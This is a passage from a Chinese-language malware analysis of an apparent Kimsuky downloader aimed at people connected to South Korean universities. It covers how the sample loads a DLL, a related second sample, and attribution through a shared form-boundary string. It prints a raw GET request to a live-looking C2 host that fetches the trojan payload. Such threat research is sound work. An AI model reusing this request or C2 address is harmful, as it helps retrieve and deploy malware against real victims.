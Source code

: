 4045c0:

首先构造get请求，从服务器上读取文件：

[![](https://p0.ssl.qhimg.com/t0108d04654d0687276.png)](https://p0.ssl.qhimg.com/t0108d04654d0687276.png)

完成的请求如下：

```
GET /home/jpg/download.php?filename=button01 HTTP/1.1 Accept: */* Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 Host: pingguo2.atwebpages.com Cache-Control: no-cache

pingguo2.atwebpages.com/home/jpg/download.php?filename=button01
```

经过测试，发现该请求无法获取相应：

[![](https://p1.ssl.qhimg.com/t0120b73e7700e2a818.png)](https://p1.ssl.qhimg.com/t0120b73e7700e2a818.png)

分析代码后发现会将从服务器上读取的文件写入之前创建的临时文件tcf.bin，并将起用loadlibrary加载，因此可以判断tcf.bin应该是一个有更复杂功能的dll木马文件，且load该dll并没有去call 其他导出函数，猜测该dll的恶意代码都在dllmain里面。

[![](https://p1.ssl.qhimg.com/t010b6bc618b46c1149.png)](https://p1.ssl.qhimg.com/t010b6bc618b46c1149.png)

[![](https://p1.ssl.qhimg.com/t0130030ab3ccd325d9.png)](https://p1.ssl.qhimg.com/t0130030ab3ccd325d9.png)

同时可以关联到另外一个样本。

#### <a class="reference-link" name="%E6%A0%B7%E6%9C%AC%E4%BF%A1%E6%81%AF"></a>样本信息

Md5 28833e121bb77c8262996af1f2aeef55<br>
此样本上传时间稍早，代码结构完成一致，粗略分析仅两处与上一个样本不同：

1.生产的迷惑文件文字不同：

[![](https://p4.ssl.qhimg.com/t0112d458e0b7768c37.png)](https://p4.ssl.qhimg.com/t0112d458e0b7768c37.png)

2.c2服务器的域名及url不同：

[![](https://p0.ssl.qhimg.com/t01936d5c7dce7504af.png)](https://p0.ssl.qhimg.com/t01936d5c7dce7504af.png)

#### <a class="reference-link" name="%E5%85%B3%E8%81%94%E5%88%86%E6%9E%90"></a>关联分析

由于2个样本种都使用了相同的字符串作为post的分隔符：

WebKitFormBoundarywhpFxMBe19cSjFnG.通过搜索引擎检索，会得到如下的结果：

[![](https://p1.ssl.qhimg.com/t01740cb04acb9d19a0.png)](https://p1.ssl.qhimg.com/t01740cb04acb9d19a0.png)

可以看到这段字符串在很久以前就出现并且曾被用于针对韩国冬奥会的攻击,并且Kimsuky攻击活动中曾经使用过，同时结合样本的掩护文档的内容，可以确定被攻击者目标是韩国大学相关人士，完全符合以往Kimsuky的攻击意图，因此可以断定此样本的来源大概率是Kimsuky。
